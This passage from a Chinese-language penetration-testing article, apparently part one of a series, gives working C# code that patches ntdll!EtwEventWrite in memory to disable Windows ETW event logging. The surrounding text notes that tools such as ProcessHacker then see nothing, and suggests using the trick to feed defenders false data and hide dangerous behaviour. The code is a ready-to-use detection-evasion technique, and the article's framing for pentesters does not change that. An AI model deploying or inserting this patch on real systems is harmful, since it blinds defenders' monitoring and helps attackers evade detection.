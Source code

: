 ```
            PatchEtw(new byte[] `{` 0xc2, 0x14, 0x00 `}`);

            Console.WriteLine("ETW Now Unhooked, further calls or Assembly.Load will not be logged");
            Console.ReadLine();
            //Assembly.Load(new byte[] `{` `}`);
        `}`

        private static void PatchEtw(byte[] patch)
        `{`
            try
            `{`
                uint oldProtect;

                var ntdll = Win32.LoadLibrary("ntdll.dll");
                var etwEventSend =   Win32.GetProcAddress(ntdll, "EtwEventWrite");

                Win32.VirtualProtect(etwEventSend, (UIntPtr)patch.Length, 0x40, out oldProtect);
                Marshal.Copy(patch, 0, etwEventSend, patch.Length);
            `}`
            catch
            `{`
                Console.WriteLine("Error unhooking ETW");
            `}`
        `}`
    `}`
`}`
```

执行测试用例后，可以看到patch之前仍然会有些事件产生，但patch成功后系统已不再记录任何事件：

[![](https://p4.ssl.qhimg.com/t017c87ed0569d0c33e.png)](https://p4.ssl.qhimg.com/t017c87ed0569d0c33e.png)

现在如果我们使用的工具依赖ETW作为数据采集源（比如ProcessHacker），我们将无法得到任何有用信息：

[![](https://p3.ssl.qhimg.com/t018f33146a1fdebbe7.png)](https://p3.ssl.qhimg.com/t018f33146a1fdebbe7.png)

大家可以利用这些技术来发挥自己的创造力，比如向防御方提供虚假信息、过滤掉可能危险的行为特征。除了patch `ntdll!EtwEventWrite`之外，我们还有其他方法能够禁用ETW。这里最关键的一点是：尽管ETW在行为检测上非常有用，但仍然存在其局限性。

希望本文能给大家在渗透测试中提供思路。在第2篇文章中，我们将探讨其他内容，分析如何避免payload被防御方提取及分析。
